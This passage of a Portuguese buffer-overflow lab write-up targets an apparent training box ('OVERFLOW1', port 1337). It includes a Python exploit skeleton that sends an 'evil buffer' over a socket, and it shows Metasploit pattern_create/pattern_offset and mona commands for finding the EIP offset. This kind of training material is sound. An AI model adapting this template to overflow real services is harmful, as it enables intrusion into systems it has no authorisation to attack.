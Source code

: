 Após o crash, anotamos o maior número de bytes enviados antes da falha.

---

Script base para o buffer/ exploit.py:

```python
import socket

ip = "10.10.149.181"
port = 1337

prefix = "OVERFLOW1 "
offset = 0
overflow = "A" * offset
retn = ""
padding = ""
payload = ""
postfix = ""

buffer = prefix + overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
  s.connect((ip, port))
  print("Sending evil buffer...")
  s.send(bytes(buffer + "\r\n", "latin-1"))
  print("Done!")
except:
  print("Could not connect.")
```

## 🔍 Encontrando o Offset

Geramos um padrão único com o **Metasploit**:
```bash
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 2400
```
![image](https://github.com/user-attachments/assets/4bf638cf-24ad-422f-b3ca-efe252c571b0)
Colocamos no exploit.py em payload e enviamos com o programa rodando no immunity

Depois, verificamos qual valor foi armazenado no **EIP**:
```bash
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q <EIP_VALUE> -l 2400
```
![image](https://github.com/user-attachments/assets/8d5ed384-e65d-473b-8e76-ce2460b17758)

Ou no **Immunity Debugger**:
```text
!mona findmsp -distance 2400
```
![image](https://github.com/user-attachments/assets/8f37b9a3-ebc2-4b44-8a5e-98055f07515e)
